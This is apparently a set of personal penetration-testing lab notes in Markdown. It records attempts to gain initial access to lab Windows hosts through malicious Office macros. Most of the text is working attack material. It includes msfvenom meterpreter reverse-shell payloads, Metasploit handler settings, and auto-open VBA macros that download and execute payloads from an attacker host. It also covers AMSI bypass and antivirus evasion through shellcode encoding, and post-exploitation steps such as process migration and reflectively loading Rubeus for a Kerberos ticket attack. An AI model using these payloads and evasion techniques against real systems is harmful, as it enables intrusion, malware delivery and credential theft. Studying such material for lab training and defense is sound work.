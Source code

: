 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript migrate -n explorer.exe
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

### (FAILED)Initial access failed method 1-triggle asmi bypass, add marco payload xor 
1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
5. No call back, no download log, maybe the powershell is not allowed??

### (FAILED)Initial access failed method 2-embed vba shell code in the doc file

1. Create x86 staged payload
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. embed into the [macilous marco](/msf/shellcode.vba) using VirtualAlloc, RtlMoveMemory, CreateThread method
3. lauch msf6

```
set payload windows/meterpreter/reverse_https
set enablestageencoding true
set stageencoder x86/xor_dynamic
run -j
```
4. Not working... maybe the shell code get flaged?

### (FAILED)Initial access failed method 3-embed powershell download cradle to execute payload
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.141/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub

```

#### shell downloadn works so far

```
 Dim str As String
    str = "powershell -c Start-bitstransfer -source http://192.168.49.141:80/newbeacon.exe -destination C:\\Windows\\Tasks\\newbeacon.exe"
    Shell str, vbHide
```
#### Worksss!! Marco Initial access works
1. Create [shell code runner](/msf/shellrunner.vba) VBA Marco using CreateThread-> execute the shell code, VirtualAlloc-> allocate memeory space for shell code, RtlMoveMemory->copy shell code into memory space

the staged VBA shell code can be generated from msfvenom command 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Copy VBA shell code into the [C# caesar cipher](/msf/caesar_cipher.cs) to encode the shell code, compile, run the program and copy output back to VBA marco 
3. Set up the msf c2
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost yourip
set lport 443
set enablestageencoding true
set stageencoder x86/xor_dynamic
set AutoRunScript migrate -n explorer.exe
run -j
```

####Get into 192.168.141.122 machine, hostname: client

Domain Admins: Administrator and pete


## TTPS
scaning
sudo nmap -A -Pn 192.168.120.130-132

Process Migrate
```
meterpreter > execute -H -f notepad
meterpreter > migrate 620
```

HostRecon
```
PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
```

Check APP blocker rules
```
PS C:\windows\system32\inetsrv> Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

Check LSA protection
```
PS C:\windows\system32\inetsrv> Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

Run AMSI patching
```
(new-object system.net.webclient).downloadstring('http://192.168.119.120/amsi.txt') | IEX
```

Powershell Load EXE:
```
PS C:\Windows\system32> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
PS C:\Windows\system32> [Rubeus.Program]::Main("s4u /user:web01$ /rc4:12343649cc8ce713962859a2934b8cbb /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
```

